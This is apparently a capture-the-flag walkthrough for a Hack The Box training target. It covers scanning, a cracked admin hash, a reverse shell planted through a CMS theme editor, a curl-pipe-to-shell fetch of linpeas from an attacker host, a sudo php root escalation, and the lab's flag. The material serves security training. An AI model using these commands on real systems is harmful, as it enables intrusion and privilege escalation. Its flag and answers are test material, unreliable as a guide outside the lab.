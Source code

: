 ##   Knowledge Check

Tips

Methodology
- Enumeration Scanning
- Exploitation
- Privilege Escalation

- 

## Steps
Enumeration/Scanning with Nmap - perform a quick scan for open ports followed by a full port scan

Web Footprinting - check any identified web ports for running web applications, and any hidden files/directories. Some useful tools for this phase include whatweb and Gobuster

If you identify the website URL, you can add it to your '/etc/hosts' file with the IP you get in the question below to load it normally, though this is unnecessary.

After identifying the technologies in use, use a tool such as Searchsploit to find public exploits or search on Google for manual exploitation techniques

After gaining an initial foothold, use the Python3 pty trick to upgrade to a pseudo TTY

Perform manual and automated enumeration of the file system, looking for misconfigurations, services with known vulnerabilities, and sensitive data in cleartext such as credentials

Organize this data offline to determine the various ways to escalate privileges to root on this target

1. sudo -sV -sC -O --min-rate=1000 --script=http-enum --top-ports=5000 -o nmapscan -vv

2. gobuster dir -u http://10.129.121.73 -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o directories

\\ found /admin/, /backups/, /data/, /plugins/, /robots.txt/, index.html 

http://gettingstarted.htb/data/users/admin.xml -> admin:d033e22ae348aeb5660fc2140aec35850c4da997 | decode it as md5 -> admin:admin

3. login with admin:admin under this path http://gettingstarted.htb/admin/

4.  found /theme/ directory and u can edit the theme from the admin panel 
http://gettingstarted.htb/admin/theme-edit.php | and write a reverse shell on the theme [ pentest monkey ]

after editing the theme visit the uploaded theme under http://gettingstarted.htb/theme/Innovation/template.php and open a listener nc -nvlp 9001


5. got a reverse shell 
cd /home
cd mrb3n 
cat user.txt

6. privilege escalation
open a python3 local server on attacker machine
python3 -m http.server 8000 and download linpeas.sh on it

download linpeas on target machine
curl http://LOCAL_IP:8000/linpeas.sh | sh

after downloading linpeas.sh and run sudo -l found that can run all commands under the /usr/bin/php
User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
    
 so go to https://gtfobins.github.io/gtfobins/php/#sudo 


and enter these commands on target machine 

CMD="/bin/sh"
sudo php -r "system('$CMD');"

whoami 
-> root 
cd /root
cat root.txt
flag: f1fba6e9f71efb2630e6e34da6387842